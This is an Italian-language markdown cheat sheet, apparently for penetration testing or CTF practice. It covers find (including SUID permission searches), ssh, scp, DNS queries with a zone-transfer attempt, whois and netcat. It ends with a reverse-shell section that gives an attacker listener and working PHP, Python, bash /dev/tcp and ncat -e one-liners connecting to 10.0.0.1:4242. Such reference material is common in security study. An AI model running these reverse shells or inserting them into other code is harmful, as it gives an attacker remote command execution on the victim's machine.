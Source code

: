 # LISTA COMANDI UTILI
`find`: è il comando usato per trovare un file seguendo certi criteri
	- `find /`: inizia a cercare da root
	- `-user user1`: cerca file creato da utente user1
	- `-group group1`: cerca file creato da gruppo group1
	- `-size +6c -size -10c`: cerca file con dimensione maggiore di 6byte e minori di 10 byte
	- `-perm 4000`: cerca file con permessi utente root, se 2000 file avviato con privilegi del gruppo invece, che potrebbe essere root

`ssh`: è il comando per potersi collegare ad un computer in remoto
	- `ssh username@hostname`: connettiti ad IP = hostname usando username per credenziale d'accesso
	- `-p 2020`: utilizza la porta 2020 per la connessione

`scp`: è il comando per trasferire file usando ssh
	- `scp username@hostname:/percorso/origine /percorso/destinazione/nome_file_di_destinazione`: prendi file dalla connessione ssh e salvalo in locale con nome nome_file_di_destinazione
	- `-r`: copia una intera directory

`host`: è il comando utilizzato per eseguire query DNS e ottenere informazioni sui nomi di dominio.
	- **`-t ns`**: specifica il tipo di record DNS che desideri ottenere. In questo caso, "ns" sta per "nameserver", quindi stai chiedendo di ottenere informazioni sui server dei nomi del dominio
	- **`-t mx`**: specifica il tipo di record DNS richiesto, in questo caso, "mx" per i record di scambio di posta (Mail Exchange)
	- `-l hostname.com nsztm2.digi.ninja`: prova un DNS Zone Transfer, utile per altre informazioni

`whois`: è il comando per vedere informazioni sul possesso di un dominio o di un indirizzo IP. Potrebbe interessarti il "Name Server" per DNS Zone Transfer
	`whois esempio.com`: vedi le informazioni di esempio.com

`nc`: utile per creare client/server rapidamente. Ottimo per mandare i comandi alla macchina che stiamo attaccando
	- `nc -l 1234`: inizia ad ascoltare nella porta 1234
	- `nc 127.0.0.1 1234`: connettiti alla macchina con indirizzo 127.0.0.1 alla porta 1234


#SHELLS
###Reverse shell
Nella reverse shell è l'attacker che si mette in listening e la vittima si collega, quindi
ATTACCANTE:

```
ncat -lvnp 4242
```

VITTIMA:

#php
```php -r '$sock=fsockopen("10.0.0.1",4242);shell_exec("sh <&3 >&3 2>&3");'```

#python3
```python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'```

#bash

```bash -i >& /dev/tcp/10.0.0.1/4242 0>&1```

```0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196```

```/bin/bash -l > /dev/tcp/10.0.0.1/4242 0<&1 2>&1```

#netcat
```ncat 10.0.0.1 4242 -e /bin/bash```


